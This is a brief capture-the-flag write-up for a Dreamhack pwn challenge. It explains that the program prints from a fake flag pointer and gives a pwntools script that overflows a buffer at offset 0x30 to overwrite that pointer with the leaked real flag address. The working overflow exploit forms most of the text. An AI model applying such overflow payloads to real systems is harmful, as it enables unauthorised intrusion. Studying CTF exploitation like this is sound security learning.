




Use IDA to see source code:

You can see the fake flag address and the real flag address:

Now look at the write function (at line 20)
this function will write 69 byte data from fake flag address to console screen so our task is to overwrite the real flag address
into the address containing the fake address

offset: 0x30

## script:
'''
from pwn import *

exe = ELF('./chall', checksec = False)
p = remote("host8.dreamhack.games", 14165)

p.recvuntil(b'(mmapped address): ')
flag_addr = int(p.recvline()[:-1], 16)
log.info("real flag addr: " + hex(flag_addr))

input()
payload = b'a'*0x30
payload += p64(flag_addr)

p.sendlineafter(b'input: ', payload)

p.interactive()
'''

## flag:
